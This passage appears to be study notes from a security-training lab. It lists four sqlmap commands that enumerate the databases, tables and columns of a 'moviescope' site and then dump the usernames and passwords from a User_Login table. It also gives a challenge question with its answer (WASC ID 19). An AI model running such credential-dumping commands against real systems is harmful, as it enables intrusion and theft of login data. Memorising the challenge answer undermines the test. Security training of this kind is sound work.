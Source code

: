 ![[01:49:22]](Attachments/Pasted%20Graphic%2019.png)  
  
  
> 1. sqlmap -r request.txt --dbs --batch --threads=5 --level=3 --risk=2  
> 
> 2. sqlmap -r request.txt -D moviescope --tables --batch --threads=5 --level=3 --risk=2  
> 
> 3. sqlmap -r request.txt -D moviescope -T User_Login --columns --batch  
> 
> 4. sqlmap -r request.txt -D moviescope -T User_Login -C username,password --dump --batch  
  
  
**Challenge 15**:  
Perform a SQL Injection vulnerability scan on the target website www.moviescope.com and determine the WASC ID for SQL Injection (Format: NN)  
  
19  
  
![ed Session - OWASP ZAP 2.0.6](Attachments/Pasted%20Graphic%2011.png)  